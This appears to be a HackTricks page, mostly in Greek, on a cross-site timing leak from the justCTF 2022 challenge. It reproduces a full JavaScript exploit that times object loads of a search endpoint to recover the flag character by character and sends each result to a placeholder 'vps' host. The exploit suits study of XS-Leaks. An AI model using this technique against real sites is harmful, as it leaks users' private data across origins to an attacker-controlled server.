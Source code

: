 # performance.now + Force heavy task

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Exploit taken from [https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/](https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/)**

Σε αυτή την πρόκληση, ο χρήστης μπορούσε να στείλει χιλιάδες χαρακτήρες και αν η σημαία περιλαμβανόταν, οι χαρακτήρες θα επιστρέφονταν στο bot. Έτσι, στέλνοντας μια μεγάλη ποσότητα χαρακτήρων, ο επιτιθέμενος μπορούσε να μετρήσει αν η σημαία περιλαμβανόταν στη στέλνουσα συμβολοσειρά ή όχι.

{% hint style="warning" %}
Αρχικά, δεν είχα ορίσει το πλάτος και το ύψος του αντικειμένου, αλλά αργότερα διαπίστωσα ότι είναι σημαντικό γιατί το προεπιλεγμένο μέγεθος είναι πολύ μικρό για να έχει διαφορά στον χρόνο φόρτωσης.
{% endhint %}
```html
<!DOCTYPE html>
<html>
<head>

</head>
<body>
<img src="https://deelay.me/30000/https://example.com">
<script>
fetch('https://deelay.me/30000/https://example.com')

function send(data) {
fetch('http://vps?data='+encodeURIComponent(data)).catch(err => 1)
}

function leak(char, callback) {
return new Promise(resolve => {
let ss = 'just_random_string'
let url = `http://baby-xsleak-ams3.web.jctf.pro/search/?search=${char}&msg=`+ss[Math.floor(Math.random()*ss.length)].repeat(1000000)
let start = performance.now()
let object = document.createElement('object');
object.width = '2000px'
object.height = '2000px'
object.data = url;
object.onload = () => {
object.remove()
let end = performance.now()
resolve(end - start)
}
object.onerror = () => console.log('Error event triggered');
document.body.appendChild(object);
})

}

send('start')

let charset = 'abcdefghijklmnopqrstuvwxyz_}'.split('')
let flag = 'justCTF{'

async function main() {
let found = 0
let notFound = 0
for(let i=0;i<3;i++) {
await leak('..')
}
for(let i=0; i<3; i++) {
found += await leak('justCTF')
}
for(let i=0; i<3; i++) {
notFound += await leak('NOT_FOUND123')
}

found /= 3
notFound /= 3

send('found flag:'+found)
send('not found flag:'+notFound)

let threshold = found - ((found - notFound)/2)
send('threshold:'+threshold)

if (notFound > found) {
return
}

// exploit
while(true) {
if (flag[flag.length - 1] === '}') {
break
}
for(let char of charset) {
let trying = flag + char
let time = 0
for(let i=0; i<3; i++) {
time += await leak(trying)
}
time/=3
send('char:'+trying+',time:'+time)
if (time >= threshold) {
flag += char
send(flag)
break
}
}
}
}

main()

</script>
</body>

</html>
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
